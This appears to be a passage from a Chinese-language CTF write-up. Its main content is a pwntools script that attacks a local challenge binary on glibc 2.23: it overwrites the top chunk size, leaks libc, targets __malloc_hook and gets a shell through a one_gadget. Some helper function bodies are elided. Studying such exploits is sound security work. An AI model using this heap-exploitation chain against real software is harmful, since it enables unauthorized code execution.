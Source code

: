 结果遇到了 malloc 报错...

![](/images/9e3e1ed74241a9f647d71836e5da2fbe.png)

```python
#!/usr/bin/env python3

from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'
context.os = 'linux'
link=process("./ocd")
libc=ELF('./glibc/2.23-0ubuntu11.3_amd64/libc-2.23.so')

def gdb_attach():
	gdb.attach(link,"set solib-search-path /home/pwner/FocusingCTF/glibc/2.23-0ubuntu11.3_amd64/")
	pause()

def addedit(length,content):
	...

def fwriteptr():
	...

def freeptr():
	...

def editptr(length,content):
	...

link.recvuntil(b'name.')
link.send(b'garhin')

payload=b'a'*0x28+p64(0xfd1)
addedit(0x28,b'a')
editptr(0x30,payload)
addedit(0xfdf,b'a')

# gdb_attach()

addedit(0x70,b'a')
fwriteptr()

libc_addr=u64(link.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))+0x27
print(hex(libc_addr))
malloc_hook=libc_addr-0x678
print(hex(malloc_hook))
libc_base=malloc_hook-libc.sym[b'__malloc_hook']
print(hex(libc_base))

freeptr()
editptr(0x8,p64(malloc_hook-0x23))

# gdb_attach()

ogg=[0x4527a,0xf03a4,0xf1247]
addedit(0x70,p64(0))

payload=b'a'*0x13+p64(libc_base+ogg[1])
addedit(0x70,payload)
addedit(0x70,p64(0))

link.interactive()
```
